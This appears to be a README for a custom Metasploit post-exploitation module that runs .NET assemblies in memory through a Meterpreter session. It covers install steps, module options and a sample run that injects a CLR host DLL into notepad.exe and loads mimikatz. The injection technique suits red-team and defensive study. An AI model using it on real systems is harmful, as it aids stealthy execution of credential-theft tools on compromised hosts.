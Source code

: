 # Execute assembly via Meterpreter session

This is a custom Metasploit post module to executing a .NET Assembly from Meterpreter session

This project target

Windows 10 64bit<br />
.Net 4.0<br />
Metasploit Framework 4<br />

It spawn a notepad.exe process and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html)

## Install

Create $HOME/.msf4/modules/post/windows/manage<br />
Copy execute-assembly.rb in $HOME/.msf4/modules/post/windows/manage/<br />
Create $HOME-METASPLOIT-DATADIR/execute-assembly<br />
Copy HostingCLRx64.dll in $HOME-METASPLOIT-DATADIR/execute-assembly/<br /> 

## Note

The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

## Module options and execution

```
msf post(windows/manage/execute-assembly) > options 

Module options (post/windows/manage/execute-assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

msf post(windows/manage/execute-assembly) > 
```

```
msf post(windows/manage/execute-assembly) > exploit 

[*] Launching notepad to host CLR...
[+] Process 4708 launched.
[*] Reflectively injecting the Host DLL into 4708...
[*] Injecting Host into 4708...
[*] Host injected. Copy assembly into 4708...
[*] Assembly copied. Executing...
[*] Start reading output
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Oct 22 2018 16:32:27
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz(powershell) # coffee
[+] 
[+]     ( (
[+]      ) )
[+]   .______.
[+]   |      |]
[+]   \      /
[+]    `----'
[+] 
[*] End output.
[+] Killing process 4708
[+] Execution finished.
[*] Post module execution completed
msf post(windows/manage/execute-assembly) >
```
